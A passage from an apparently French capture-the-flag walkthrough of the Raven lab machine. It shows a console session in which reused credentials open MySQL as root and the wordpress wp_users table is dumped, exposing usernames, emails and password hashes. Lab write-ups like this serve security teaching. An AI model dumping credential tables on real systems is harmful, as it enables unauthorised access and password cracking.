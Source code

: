 On se connecte ainsi avec les identifiants trouvés, et on récupère le contenu de la table ```wp_users```. 

```console
michael@Raven:~$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 98
Server version: 5.5.60-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+
4 rows in set (0.00 sec)

mysql> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

mysql> select ID, user_login, user_pass, user_email, display_name from wp_users;
+----+------------+------------------------------------+-------------------+----------------+
| ID | user_login | user_pass                          | user_email        | display_name   |
+----+------------+------------------------------------+-------------------+----------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael@raven.org | michael        |
|  2 | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ | steven@raven.org  | Steven Seagull |
+----+------------+------------------------------------+-------------------+----------------+
2 rows in set (0.00 sec)

mysql> exit
Bye
```